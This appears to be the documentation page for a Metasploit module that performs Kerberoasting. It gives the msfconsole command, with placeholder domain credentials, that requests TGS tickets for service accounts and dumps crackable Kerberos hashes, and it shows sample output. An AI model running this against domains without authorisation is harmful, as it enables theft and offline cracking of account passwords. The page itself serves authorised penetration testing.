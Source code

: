 ## Description

This module will try to find Service Principal Names (SPN) that are associated with normal user accounts on the specified domain and then submit requests to retrive Ticket Granting Service (TGS) tickets for those accounts, which may be partially encrypted with the SPNs NTLM hash. After retrieving the TGS tickets, offline brute forcing attacks can be performed to retrieve the passwords for the SPN accounts.

## Verification Steps

- [ ] Install [impacket](https://github.com/CoreSecurity/impacket) library with requirements
- [ ] Have a domain user account credentials
- [ ] `./msfconsole -q -x 'use auxiliary/gather/get_user_spns; set rhosts <dc-ip> ; set smbuser <user> ; set smbpass <password> ; set smbdomain <domain> ; run'`
- [ ] Get Hashes

## Scenarios

```
$ ./msfconsole -q -x 'use auxiliary/gather/get_user_spns; set rhosts <dc-ip> ; set smbuser <user> ; set smbpass <password> ; set smbdomain <domain> ; run'
rhosts => <dc-ip>
smbuser => <user>
smbpass => <password>
smbdomain => <domain>
[*] Running for <domain>...
[*] Total of records returned <num>
[+] ServicePrincipalName                              Name        MemberOf                                                                          PasswordLastSet      LastLogon           
[+] ------------------------------------------------  ----------  --------------------------------------------------------------------------------  -------------------  -------------------
[+] SPN...              User...   List...  DateTime... Time... 
[+] $krb5tgs$23$*user$realm$test/spn*$<data>
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

